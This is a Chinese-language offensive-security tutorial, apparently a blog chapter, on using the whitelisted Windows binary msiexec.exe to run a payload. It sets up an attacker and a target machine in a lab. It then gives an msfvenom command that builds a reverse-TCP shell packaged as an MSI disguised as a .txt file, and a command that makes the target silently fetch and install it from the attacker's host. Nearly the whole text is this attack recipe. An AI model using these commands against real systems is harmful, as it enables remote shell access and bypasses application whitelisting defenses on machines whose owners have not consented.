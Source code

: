 ### 11.8 基于白名单Msiexec执行payload（八）

**Msiexec简介：**

Msiexec 是 Windows Installer 的一部分。用于安装 Windows Installer 安装包（MSI）,一般在运行 Microsoft Update 安装更新或安装部分软件的时候出现，占用[内存](https://so.csdn.net/so/search?q=%E5%86%85%E5%AD%98&spm=1001.2101.3001.7020)比较大。并且集成于 Windows 2003，Windows 7 等。

说明：Msiexec.exe所在路径已被系统添加PATH环境变量中，因此，Msiexec命令可识别。

**基于白名单Msiexec.exe配置payload：**

Windows 2003 默认位置：

    C:\WINDOWS\system32\msiexec.exe
    C:\WINDOWS\SysWOW64\msiexec.exe
    
        

攻击机：192.168.1.4 Debian-
靶机： 192.168.1.119 Windows 2003

**配置攻击机msf：**

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010160125649.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**配置payload：**

    msfvenom ‐p windows/x64/shell/reverse_tcp LHOST=192.168.1.4 LPORT=53 ‐ f msi > Micropoor_rev_x64_53.txt
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010160144721.png%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010160150740.png%23pic_center)-
靶机执行：

    C:\Windows\System32\msiexec.exe /q /i http://192.168.1.4/Micropoor_rev\_x64_53.txt
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020101016020518.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010160210446.png%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010160216435.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

* * *